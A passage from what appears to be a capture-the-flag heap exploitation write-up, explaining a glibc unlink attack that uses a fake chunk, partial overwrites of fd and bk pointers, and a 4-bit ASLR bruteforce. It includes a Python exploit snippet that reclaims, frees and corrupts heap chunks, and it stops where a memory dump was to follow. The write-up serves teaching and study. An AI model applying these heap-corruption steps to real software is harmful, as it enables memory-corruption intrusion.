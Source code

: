 We can see now that our fake chunk has valid `fd` and `bk` pointers, now to
bypass the checks of the unlink procedure we need the `fd` pointer of _chunk
"B"_ and the `bk` pointer of _chunk "A"_ to both point to our fake chunk at
address `0x55555555cf90`.
We can do this easily for _chunk "B"_, by reclaiming it and overwriting the 2
LSB of the lingering `fd` pointer so that it will point to the fake chunk.
When doing this _chunk "A"_ will be the only one remaining in the list,
therefore its `fd` and `bk` pointers will be both pointing to libc.
So what we will do is free the _extra barrier chunk_ and the "A" chunk once
again in this order, in doing this they will be both place in the unsorted bins
list, and the `bk` pointer of _chunk "A"_ will be a heap pointer that we can
partially overwrite after we reclaim it.

> IMPORTANT:  
> Beware that with ALSR enabled we need to perform a 4 bit bruteforce to
> overwrite correctly the lingering pointers.

```python
# Reclaim CHUNK B and manipulate fd pointer to fake chunk
payload = p16(0xcf90)
add(0x458, payload, b"META_CHUNK_B")        # idx: 5

# Reclaim CHUNK A
add(0x438, b"A"*0x10, b"META_CHUNK_A")      # idx: 6
# Free extra barrier so that it will be chunk A bk ptr
delete(0)
# Free CHUNK A to have a heap pointer in mchunk->bk
delete(6)

# Reclaim CHUNK A and manipulate bk pointer to point to fake chunk
payload = p64(0) + p16(0xcf90)
add(0x438, payload, b"META_CHUNK_A")        # idx: 0
```

And this is the result in memory:
